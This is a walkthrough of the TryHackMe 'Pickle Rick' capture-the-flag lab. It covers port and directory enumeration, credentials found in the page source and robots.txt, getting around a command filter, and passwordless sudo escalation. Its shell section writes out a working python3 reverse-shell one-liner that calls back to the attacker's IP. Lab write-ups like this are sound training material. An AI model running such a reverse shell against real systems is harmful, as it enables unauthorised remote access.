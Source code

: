 ```yaml
---
layout: single
title:  "Pickle Rick - TryHackMe"
date:   2021-04-04 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


This time i'll be working with [Pickle Rick](https://www.tryhackme.com/room/picklerick) room from **TryHackMe**. This is a free lab with low difficulty.

## Lab info

![Lab Info](/images/THM/PickleRick/00-room-info.png){: .align-center}

## Enumeration

All ports nmap scan: ```nmap -p- -sS --min-rate 5000 -n -v 10.10.123.34 -oG allPorts.gnmap```

```bash
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

Basic enumeration scripts for ports 22,80: ```nmap -sC -sV -p22,80 10.10.123.34 -oN ports.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:30 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:c4:23:86:8e:70:33:66:18:f0:84:e8:6b:93:eb:bc (RSA)
|   256 a9:25:85:0b:08:8f:30:36:36:9a:b2:3b:d6:bf:d1:07 (ECDSA)
|_  256 38:d9:59:3b:50:cd:b6:de:8d:60:06:bf:46:1e:d5:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finally let's run an http-enum script on port 80: ```nmap --script http-enum -p80 10.10.123.34 -oN webscan.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:31 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 31.34 seconds
```

So, from all scans we get:

* Webpage: http://10.10.123.34

![Web Page](/images/THM/PickleRick/15-web-page.png){: .align-center}

As a good habit, you might want to check the source code of the webpages.

![Web Page Source Code](/images/THM/PickleRick/21-username.png){: .align-center}

And just like that we get the username ```R1ckRul3s```

* Login: http://10.10.123.34/login.php

![Login Page](/images/THM/PickleRick/20-login-page.png){: .align-center}

------

* Robots file: http://10.10.123.34/robots.txt

![robots](/images/THM/PickleRick/24-robots-web.png){: .align-center}

In robots.txt we see ```Wubbalubbadubdub```, let's save it in case it's useful later. 

Just to be sure, now we will launch a gobuster directory scan in case nmap missed something. 

Gobuster scan: ```gobuster dir -u http://10.10.123.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300 --no-error```

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.34
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/04 13:55:58 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.123.34/assets/]
/server-status        (Status: 403) [Size: 300]

===============================================================
2021/04/04 14:04:25 Finished
===============================================================
```

Gobuster will find ```/assets``` directory that does not contain anything interesting.


## Gainning access

Moving on to the login page, using the info gathered before, we could try to use ```R1ckRul3s``` as username and ```Wubbalubbadubdub``` as password... and it actually works.

The next we will see is a Command Panel and an input to execute commands.

![Command Panel](/images/THM/PickleRick/26-command-panel.png){: .align-center}

If we try to navigate to another tab, we get the message: *Only the **REAL** rick can view this page...*

![Denied](/images/THM/PickleRick/33-denied.png){: .align-center}

So, back to the Command Panel, let's assume we could execute system commands and try some.

![whoami](/images/THM/PickleRick/27-command-whoami.png){: .align-center}

![ls](/images/THM/PickleRick/30-command-panel-ls.png){: .align-center}

Making ```cat Sup3rS3cretPickl3Ingred.txt``` the following message will show up. 

![cat](/images/THM/PickleRick/28-command-cat.png){: .align-center}

Now we know some commands are being blocked, but ```less``` is not one of them. 

![First Flag](/images/THM/PickleRick/29-first-ing.png){: .align-center}

**First Ingredient:** ```mr. m*******```

## Getting a shell

For the reverse shell, first we want to make sure the command we are going to use exist in the system and is allowed. Trying python gets no results but python3 will do the trick. 

Using this [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) as a reference, we craft the following command:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.103",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now, we open a listener on port 443 with netcat and execute our command to get the shell.

![Shell](/images/THM/PickleRick/34-first-shell.png){: .align-center}

## Privilege Escalation

This is the easiest part, the first thing we could do is check the ```www-data``` user privileges with ```sudo -l```. We will find out that we can execute command as root without providing password.

So we make ```sudo su``` to become root user.

![Privesc](/images/THM/PickleRick/37-privesc.png){: .align-center}

The last thing would be locating the other two ingredients. If we check the  ```/home``` path we will see rick directory inside.

![Second Flag](/images/THM/PickleRick/35-second-ing.png){: .align-center}

**Second Ingredient:** ```1 je*******```

And the last ingredient could be found in the home directory for root or using the find command.

```bash
find / -type f -name "*.txt" | grep -v "usr"
```
![Third Flag](/images/THM/PickleRick/40-third-ing.png){: .align-center}

**Third Ingredient:** ```fle*******```

And that's all for this lab.